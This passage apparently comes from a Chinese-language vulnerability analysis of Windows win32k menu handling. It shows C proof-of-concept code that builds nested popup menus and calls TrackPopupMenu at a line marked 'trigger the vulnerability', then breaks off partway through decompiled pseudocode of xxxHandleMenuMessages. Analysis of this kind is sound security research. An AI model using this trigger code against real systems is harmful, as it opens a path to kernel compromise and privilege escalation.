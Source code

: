 ```
memset(&Item1, 0, sizeof(Item1));
memset(&Item2, 0, sizeof(Item2));
 
Item1.cbSize = sizeof(Item1);
Item1.fMask = MIIM_STRING;
if (!InsertMenuItemA(hMenu1, 0, TRUE, &Item1))
{
    ShowError("InsertMenuItemA 1", GetLastError());
    bRet = FALSE;
    goto exit;
}
 
hMenu2 = CreatePopupMenu();
if (!hMenu2)
{
    ShowError("CreatePopupMenu 2", GetLastError());
    bRet = FALSE;
    goto exit;
}
 
Item2.fMask = MIIM_STRING | MIIM_SUBMENU;
Item2.dwTypeData = "";
Item2.cch = 1;
Item2.hSubMenu = hMenu1;
Item2.cbSize = sizeof(Item2);
 
if (!InsertMenuItemA(hMenu2, 0, TRUE, &Item2))
{
    ShowError("InsertMenuItemA 2", GetLastError());
    bRet = FALSE;
    goto exit;
}
 
// 触发漏洞
if (!TrackPopupMenu(hMenu2, 0, 0, 0, 0, hWnd, NULL))
{
    ShowError("TrackPopupMenu", GetLastError());
    bRet = FALSE;
    goto exit;
}

```

不同的地方在于此时触发漏洞的位置是不同的，以下是部分代码：  

```
int __stdcall xxxHandleMenuMessages(int a1, int a2, WCHAR UnicodeString)
{
  uMsg = *(_DWORD *)(a1 + 4);
  if ( uMsg > 0x104 )
  {
    if ( uMsg > 0x202 )
    {
    }
    if ( uMsg == 0x202 )
      goto LABEL_80;
    v20 = uMsg - 0x105;         // uMsg - 0x105
    if ( v20 )
    {
      v21 = v20 - 1;          // uMsg - 0x1                
      if ( v21 )
      {
        v22 = v21 - 0x12;       // uMsg - 0x12
        if ( !v22 )
```